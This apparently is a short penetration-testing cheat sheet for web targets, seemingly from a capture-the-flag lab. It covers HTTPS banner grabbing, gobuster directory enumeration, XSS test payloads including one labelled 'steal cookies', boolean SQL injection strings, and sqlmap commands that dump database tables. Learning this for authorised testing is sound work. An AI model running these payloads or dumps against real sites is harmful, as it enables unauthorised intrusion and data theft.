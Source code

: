 Use OpenSSL for HTTPS banner grabbing:
```
$ openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

httprint is a web fingerprinting tool that uses **signature-based** technique
to identify web servers. This is more accurate since sysadmins can customize
web server banners.

```
$ httprint -P0 -h <target hosts> -s <signature file>
```

## Directory and File Enumeration

Pick your favorite URI Enumeration tool
- Gobuster - fast, multi-threaded scanner
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://<address>/
```
- Dirbuster - nice GUI
- Dirb - recursively scans directories

## XSS

Look to exploit user input coming from:
- Request headers
- Cookies
- Form inputs
- POST parameters
- GET parameters

Check for XSS
```
<script>alert('THM')</script>
<i>some text</i>
```

Steal cookies:
```
<script>alert(document.cookie)</script>
```

## SQL Injection

Same injection points as XSS. 

Boolean Injection:
- and 1=1; -- -
- or 'a'='a'; -- -

Once you determine that a site is vulnerable to SQLi, automate with SQL Map.

```
$ sqlmap -u <url>
$ sqlmap -u <url> -p <parameter>
$ sqlmap -u <url> --tables
$ sqlmap -u <url> -D <database name> -T <table name> --dump
```
